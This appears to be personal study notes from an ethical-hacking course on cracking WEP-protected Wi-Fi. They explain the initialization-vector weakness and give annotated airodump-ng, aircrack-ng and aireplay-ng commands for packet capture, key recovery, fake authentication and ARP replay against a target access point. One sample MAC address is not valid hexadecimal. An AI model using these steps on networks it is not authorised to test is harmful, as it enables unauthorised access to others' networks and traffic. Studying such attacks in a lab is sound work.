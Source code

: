 -----------------------------------------------------------------------------------------------------

NOW THE PRE CONNECTION SECTION IS OVER...........LET'S MOVE ON TO GAINING ACCESS...⏩️⏩️


WEP[Wired Equivalent Privacy] CRACKING
--------------------------------------
WEP uses RC4 algorithm. In transmitting data, the transmitter uses a key to encrypt the data for each packet and send it to the client reciever, then the reciever device decrypt the gibrish data using that key.

To do that it generate a 24 bit initialization vector. That vector is added to the password of the network to the actual key. This generate a keystream and this keystream is used to encrypt the data. 

So kestream+the actual data = encrypted data send to air.

BUT THE WEAKNESS IS THAT IT ALSO SHARES THE INITIALIZATION VECTOR IN PLAIN TEXT WITH THE PACKET😂️.


We can use aircrack-ng to determine the key stream and can be used to crack to get the key. We need to capture large number of packet to capture the initialization vector to get the actual key.

We can capture that if the network is busy...


▶️> airodump-ng --bssid 08:00:27:c7:e1:36 --channel 2 --write filename mon0 [if the network is busy we can see the data is increasing at very speed. In the data column it is the no: of useful packets that contain a different initialization vetor that help us to crack the network. The higher no: of packets more likely to crack it.(98686 packets are enough in zsecurity tutorial)]

▶️> aircrack-ng filename.cap [This is the  result file we captured. This command will find the key for us] 
[The password will shown as an ASCII password, just copy paste it and connect to the network....Some times we dont get the ascii in that case we can see a key like a mac address...Just remove the columns between them and connect with it]


Here we saw that our network must be busy, so if a netowrk is not busy we need to overcome it my making it  busy...[if a network is not busy,the data section will be 0 or slowly increase].


To see the changes live run airodump-ng against the networks just like erlier(▶️airodump-ng --bssid 08:00:27:c7:e1:36 --channel 2 --write filename mon0)

Now inorder to increase the data packet flow we need to tell the device that we want to communicate with it with a fake authentication attack(Not connecting, just fake auth):


▶️> aireplay-ng --fakeauth 0 -a 08:00:27:c7:e1:36 -h f8:00:65:g3:a2:98 mon0 [-a is the mac of target network -h is the mac of our wireless adaptor. The mac of the wireless adaptor is the first 12 digits seen after UNSPEC seccion, because of enabling monitor mode, also replace the - with :] (This sends a authentication reques or association reques or the ACK)


Now we can communicate with the network, because our mac is associated with it...It won't ignore us. Now we can force the access pint to generate initialization vectors sending.


WE ARE GOING TO DO A arp replay attack TO INCREASE THE NO: OF DATA:


▶️> aireplay-ng --arpreplay -b 08:00:27:c7:e1:36 -h f8:00:65:g3:a2:98 mon0 [-b is the target network] (Wait for it to capture an arp packet)
(Do this immediately after associating/fakeauth with the network)
